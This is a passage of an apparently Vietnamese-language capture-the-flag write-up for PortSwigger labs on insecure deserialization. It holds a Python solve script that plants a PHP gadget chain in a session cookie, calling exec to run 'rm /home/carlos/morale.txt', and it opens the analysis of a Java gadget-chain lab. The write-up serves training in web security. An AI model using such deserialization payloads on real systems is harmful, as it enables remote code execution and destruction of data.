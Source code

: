 ```python=

# lấy data từ cookie và xử lí
data_cookies = 'O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:4:"exec";}}'
encode_base64 = base64.b64encode(data_cookies.encode('utf-8')).decode('utf-8')
encode_url = quote(encode_base64)
solve = encode_url

cookies = {
    'session': solve,
}

# dùng cookie đã sử lý để xóa file của carlos
response = requests.get(
    url + '/product?productId=1',
    cookies=cookies,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/H1cRIp_Kp.png)

mục đích của chúng ta đã hoàn thành và chúng ta cũng đã giải quyết được bài lab

![image](https://hackmd.io/_uploads/S1YuUTdF6.png)

## 6.Lab: Developing a custom gadget chain for Java deserialization

link: https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-developing-a-custom-gadget-chain-for-java-deserialization

### Đề bài

![image](https://hackmd.io/_uploads/ry-Ea_ejp.png)

### Phân tích

- Lab này sử dụng cơ chế phiên dựa trên tuần tự hóa. Nếu bạn có thể xây dựng một chuỗi tiện ích phù hợp, bạn có thể khai thác quá trình khử tuần tự không an toàn của phòng thí nghiệm này để lấy mật khẩu của quản trị viên. Để giải quyết bài thí nghiệm, hãy giành quyền truy cập vào mã nguồn và sử dụng nó để xây dựng chuỗi tiện ích nhằm lấy mật khẩu của quản trị viên. Sau đó, đăng nhập với tư cách quản trị viên và xóa carlos. Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau: wiener:peter

- Ứng dụng sử dụng Java binary serialization format tại session cookie.
